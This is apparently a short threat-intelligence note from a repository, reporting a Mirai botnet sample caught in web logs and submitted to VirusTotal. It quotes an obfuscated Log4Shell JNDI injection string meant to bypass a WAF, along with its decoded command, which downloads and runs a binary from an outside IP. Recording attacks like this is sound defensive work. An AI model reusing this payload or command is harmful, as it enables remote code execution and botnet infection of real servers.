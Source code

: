 # mirai_sample
mirai sample detected in logs being delivered via jndi waf bypass submitted to VirusTotal -> https://www.virustotal.com/gui/file/38178574a5ff459b732775e483d6a91aa95ce653e66fb6040812da2acf6a17f7?nocache=1


sample was detected in Logs :

"GET / HTTP/1.1" 200 10049 "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150.136.111.68:1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8vMTU4LjEwMS4xMTguMjM2L2Rldl9zc2hkOyBjdXJsIC1PIGh0dHA6Ly8xNTguMTAxLjExOC4yMzYvZGV2X3NzaGQ7IGNobW9kIDc3NyBkZXZfc3NoZDsgLi9kZXZfc3NoZCB4ODYuZXhwbG9pdA==}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150.136.111.68:1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8vMTU4LjEwMS4xMTguMjM2L2Rldl9zc2hkOyBjdXJsIC1PIGh0dHA6Ly8xNTguMTAxLjExOC4yMzYvZGV2X3NzaGQ7IGNobW9kIDc3NyBkZXZfc3NoZDsgLi9kZXZfc3NoZCB4ODYuZXhwbG9pdA==}')"


decoding the base64 string becomes:

wget http://158.101.118.236/dev_sshd; curl -O http://158.101.118.236/dev_sshd; chmod 777 dev_sshd; ./dev_sshd x86.exploit
